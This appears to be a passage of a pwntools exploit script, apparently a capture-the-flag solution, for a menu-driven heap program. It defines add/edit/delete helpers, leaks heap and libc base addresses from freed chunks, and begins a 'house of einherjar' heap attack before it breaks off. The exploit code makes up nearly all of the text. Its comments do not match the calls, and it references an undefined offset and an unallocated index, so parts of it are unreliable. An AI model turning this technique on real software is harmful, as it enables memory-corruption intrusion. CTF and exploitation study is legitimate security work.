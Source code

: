 ```python
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))


def run():
    p.recvuntil(
        '  ============================================================================\n\n'
    )
    # 1. leak heap base
    add(0x70, 'a' * 8)  # idx 0
    add(0x70, 'b' * 8)  # idx 1
    add(0x100, 'c' * 8)  # idx 2

    delete(2)  # delete idx 1
    delete(1)  # delete idx 0, idx 0 point to idx 1
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
    heap_base = u64(data.ljust(8, '\x00')) - 0x80
    log.success('get heap base: ' + hex(heap_base))

    # 2. leak libc base
    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin
    # second idx1 will merge with idx0(unlink), and point to idx0
    # third idx1 will merge into top chunk
    # but cause unlink feture, the idx0's fd and bk won't change
    # so idx0 will leak the unsorted bin addr
    delete(3)
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)
    unsorted_offset_arena = 8 + 10 * 8
    main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset
    log.success('main arena addr: ' + hex(main_arena))
    log.success('libc base addr: ' + hex(libc_base))

    # 3. house of einherjar
    add(0x18, 'a' * 0x18)  # idx 0
    # we would like trigger house of einherjar at idx 1
    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
    add(0x100, 'c' * 0xf8)  # idx 2
```